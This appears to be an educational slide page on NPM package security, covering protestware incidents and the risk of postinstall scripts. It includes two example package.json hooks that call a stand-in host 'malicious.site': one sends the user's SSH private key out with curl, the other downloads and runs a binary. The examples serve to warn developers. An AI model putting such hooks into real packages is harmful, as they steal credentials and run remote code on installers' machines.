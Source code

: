 
# <FontAwesomeIcon icon={faShieldHalved} /> NPM Package Security

---

### Protestware

##### Packages that are update to support the authors' cause by force

`event-source-polyfill` redirected any application
using it after 15 seconds

`left-pad` and `faker` were removed from NPM on purpose over various disputes

---

### Postinstall Scripts

Can potentially execute malicious code to grand remote shell access after installing a package

<Columns count={2}>
    ```json
    {
        "name": "mypackage",
        "main": "index.js",
        "scripts": {
            "postinstall": "curl http://malicious.site/send?data=$(cat ~/.ssh/id_rsa)"
        }
    }

    ```

    ```json
    {
        "name": "mypackage",
        "main": "index.js",
        "scripts": {
            "postinstall": "node -e \"require('child_process').execSync('wget http://malicious.site/malware && chmod +x malware && ./malware')\""
        }
    }

    ```

</Columns>
